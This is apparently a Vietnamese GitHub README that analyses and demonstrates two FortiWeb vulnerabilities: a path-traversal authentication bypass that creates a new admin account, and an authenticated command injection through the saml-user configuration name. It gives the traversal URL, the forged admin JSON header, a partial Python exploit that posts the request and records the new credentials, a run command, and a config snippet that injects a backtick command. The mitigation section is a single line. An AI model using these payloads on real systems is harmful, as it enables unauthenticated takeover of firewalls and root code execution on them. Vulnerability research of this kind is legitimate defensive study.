




> # CVE-2025-64446 & CVE-2025-58034
> ### Phân tích & Bằng chứng khai thác (PoC)

---

## 1. Tổng quan
### 1.1 CVE-2025-64446
| Danh mục | Mô tả |
|-------|---------|
| CVE-2025-64446 | Đây là lỗ hổng Path Traversal tương đối cho phép kẻ tấn công gửi các yêu cầu HTTP và HTTPS chưa xác thực được thiết kế đặc biệt để thực thi các lệnh quản trị trên hệ thống, ví dụ như tạo tài khoản admin mới. |
| Loại lỗ hổng | Path Traversal |
| Sản phẩm bị ảnh hưởng | FortiWeb |
| Phiên bản bị ảnh hưởng | 7.0.0 – 7.0.11 <br> 7.2.0 – 7.2.11 <br> 7.4.0 – 7.4.9 <br> 7.6.0 – 7.6.4 <br> 8.0.0 – 8.0.1 |
| Điểm CVSS |9.8 |
| Mức độ nghiêm trọng | Critical |
| Năm công bố | 2025 |

### 1.2 CVE-2025-58034
| Danh mục | Mô tả |
|-------|---------|
| CVE-2025-58034 | Đây là lỗ hổng Command Injection cho phép người dùng đã đăng nhập chèn dòng lệnh vào yêu cầu HTTP để thực thi lệnh trên hệ thống FortiWeb, dẫn đến RCE với quyền root. |
| Loại lỗ hổng | Command Injection |
| Sản phẩm bị ảnh hưởng | FortiWeb |
| Phiên bản bị ảnh hưởng | 7.0.0 – 7.0.11 <br> 7.2.0 – 7.2.11 <br> 7.4.0 – 7.4.10 <br> 7.6.0 – 7.6.5 <br> 8.0.0 – 8.0.1 |
| Điểm CVSS | 7.2 |
| SMức độ nghiêm trọng | High |
| Năm công bố | 2025 |

---

## 2. Phân tích nguyên nhân gốc (Root Cause)

### 2.1 CVE-2025-64446

Mô tả:
- Lỗ hổng CVE-2025-64446 tồn tại trong thành phần GUI API handler của FortiWeb.

- Lỗi được kích hoạt khi xử lý các yêu cầu URL được tạo đặc biệt.

Ví dụ:
```
/api/v2.0/cmdb/system/admin%3f/../../../../../cgi-bin/fwbcgi
```
FortiWeb xử lý không đúng:

- Giải mã ký tự %3f (dấu hỏi ? đã được encode)

- Chuỗi ../../../../ dùng để thoát khỏi thư mục /api/v2.0 và truy cập vào /cgi-bin/fwbcgi – đây là một thành phần nội bộ của FortiWeb.

Yêu cầu sau đó được chuyển tiếp bởi cấu hình của Apache HTTP Server tới backend CGI handler.

CGI Handler có một hàm xác thực tên là cgi_auth, nhưng hàm này không kiểm tra header do client gửi lên. Header này chứa dữ liệu JSON như sau:
```
{
  "username": "admin",
  "profname": "super_admin",
  "loginname": "admin"
}
```

Do không kiểm tra header, kẻ tấn công có thể tạo tài khoản admin mới mà không cần xác thực.
Lỗi được phát hiện dưự theo công thức <b>Unsafe method</b> (cgi_auth authentication function) và <b>Untrusted Data </b> (chuỗi input từ URL).

### 2.2 CVE-2025-58034
Mô tả:
 - Lỗ hổng được phân loại là Command Injection.

- Người dùng đã xác thực có thể chèn lệnh hệ thống tùy ý vào các yêu cầu HTTP.

- Dữ liệu đầu vào thông qua một số tham số GUI API được truyền xuống các hàm thực thi lệnh hệ thống mà không được kiểm tra/sanitization đầy đủ.

Example:
```
config user saml-user

edit "`id`" ## nhập lệnh tại đây

set entityID http://foo

set service-path /foo

set enforce-signing disable

set slo-bind post

set slo-path /foo

set sso-bind post

set sso-path /foo

end
```
FortiWeb sẽ thoát khỏi chuỗi cấu hình và thực thi lệnh id trong quá trình cấu hình saml-user.

---

## 3. Bằng chứng khai thác (Proof of Concept - PoC)
### 3.1 Thiết lập FortiWeb
Cài đặt và cấu hình FortiWeb


### 3.2 Payloads

```
 cgiinfo_json = {
        "username": "admin",
        "profname": "prof_admin",
        "vdom": "root",
        "loginname": "admin"
    }
cgiinfo_b64 = base64.b64encode(json.dumps(cgiinfo_json).encode()).decode()
conn.request("POST", "/api/v2.0/cmdb/system/admin%3f/../../../../../cgi-bin/fwbcgi", body=body_data, headers=headers)
        resp = conn.getresponse()
result = {
            'target': f"{host}:{port}",
            'status': resp.status,
            'user': username,
            'password': password,
            'success': resp.status == 200
        }

```

### 3.3 Khai thác
Chạy công cụ bằng Python3:
```
python3 exploit.py <FortiWeb IP>
```

### 3.4 Kết quả thực thi
- Khai thác thành công và tạo được tài khoản mới với quyền admin

- Đăng nhập vào portal bằng tài khoản vừa tạo


### 3.5 Ảnh bằng chứng




### 3.6 hai thác CVE-2025-58034 sau khi đăng nhập bằng tài khoản mới
Sử dụng lệnh cấu hình:
```
config user saml-user
```


Kiểm tra kết quả:


----

## 4. Đánh giá tác động

Khai thác thành công có thể dẫn đến:

- Thực thi mã từ xa (RCE)

- Rò rỉ dữ liệu nhạy cảm

- Bypass cơ chế xác thực

---

## 5. Giảm thiểu & Khắc phục

- Cập nhật lên phiên bản mới nhất đã được vá lỗi

---

# Cấu trúc Repository

```
CVE-2025-64446 & CVE-2025-58034/
│
├── CVE-2025-64446 & CVE-2025-58034.md
└── images/
    └── *.png
```